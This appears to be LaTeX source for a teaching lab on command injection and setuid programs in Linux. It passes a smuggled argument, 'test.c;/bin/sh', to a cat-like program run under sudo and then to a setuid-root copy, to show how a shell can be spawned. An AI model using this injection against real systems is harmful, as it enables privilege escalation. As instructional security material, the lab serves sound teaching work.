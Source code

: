 \documentclass{article}
\begin{document}
\noindent Recall (from the setup) that "admin" has \lstinline{sudo} and \textbf{does not need password}, let’s exploit this!
\begin{center}
    \lstinline{sudo ./test "test.c;/bin/sh"}\\
    \lstinline{whoami}
\end{center}
\noindent Now we’ve gained root access and a root shell. We had sudo already so this is
not a big concern, but illustrates the mechanics of how to spawn a potentially
vulnerable shell. Let’s return back from our shell again with "exit".\\


\noindent Let’s make a copy of our test program called retest, make it owned by root, and have the \lstinline{SETUID} flag set.
\begin{itemize}
    \item \lstinline{cp test retest}
    \item \lstinline{sudo chown root:root retest}
    \item \lstinline{sudo chmod 4755 retest}
\end{itemize}
\noindent Now we can see the differences between test and retest with
\begin{center}
    \lstinline{ls -al}
\end{center}
\noindent Observe that retest has ”s” instead of ”x” for the first execution property
and is owned by ”root root”.\\


\noindent Now we can run the same basic command as before to see that retest
behaves the same:

\begin{center}
    \lstinline{./retest test.c}
\end{center}

\noindent Now let’s recreate a shell command with retest

\begin{center}
    \lstinline{./retest "test.c;/bin/sh"}\\
    \lstinline{whoami}
\end{center}
\noindent We are still admin... (but this may be useful later).

\subsection{Spam \& Delay}
The \lstinline{test.c} program emulates the behaviour of the linux ”cat” command in a
naive way. Let’s look at two more simple programs to do trivial tasks, but
that may have vulnerabilities in how they achieve their goals.\\
\end{document}
